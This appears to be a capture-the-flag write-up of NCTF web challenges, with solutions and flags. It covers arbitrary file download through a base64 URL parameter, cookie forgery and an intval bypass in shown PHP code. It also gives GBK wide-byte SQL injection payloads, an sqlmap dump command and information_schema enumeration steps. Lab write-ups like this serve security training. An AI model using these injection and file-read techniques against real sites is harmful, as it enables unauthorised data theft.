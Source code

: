 11.单身一百年也没用

	response
	flag: nctf{this_is_302_redirect}

12.download

	http://way.nuptzj.cn/web6/download.php?url=YnV4aWFuZ3poYW5nZGEubXAz
	http://way.nuptzj.cn/web6/download.php?url=aGVyZWlza2V5LnBocA==
	nctf{download_any_file_666}

13.COOKIE
	
	0==not
	login=1
	nctf{cookie_is_different_from_session}


14.MYSQL!!!!!!!!!!!!!!
200
robots.txt
	
	sql.php
		<?php
		if($_GET[id]) {
		   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
		  mysql_select_db(SAE_MYSQL_DB);
		  $id = intval($_GET[id]);
		  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
		  if ($_GET[id]==1024) {
			  echo "<p>no! try again</p>";
		  }
		  else{
			echo($query[content]);
		  }
		}
		?>
	
	chinalover.sinaapp.com/web11/sql.php?id=1024.1
	nctf{query_in_mysql}


15.sql injection 3
200
	
	http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1
	Payload: id=%df' UNION ALL SELECT NULL,CONCAT(0x7178767171,0x4e49696a6566556a4d73,0x716a767671)#
	Payload: id=%df' AND 2369=BENCHMARK(5000000,MD5(0x78695172))#
	http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df' union all select NULL,database()%23
	sqlmap.py -u http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1 --prefix="%df'" --suffix="%23" --dump-all

	http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-3310%df' UNION ALL SELECT NULL,database()-- 123
	sae-chinalover
	http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-3310%df' UNION ALL SELECT NULL,user()-- 123
	sae-chinalover@220.181.129.102
	http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-3310%df' UNION ALL SELECT NULL,table_name from information_schema.tables where table_schema=0x7361652d6368696e616c6f766572 limit 4,1-- 123
	ctf4
	http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-3310%df' UNION ALL SELECT NULL,column_name from information_schema.columns where table_name=0x63746634 limit 1,1-- 123
	flag
	http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-3310%df' UNION ALL SELECT NULL,flag from ctf4 limit 0,1-- 123
	nctf{gbk_3sqli}
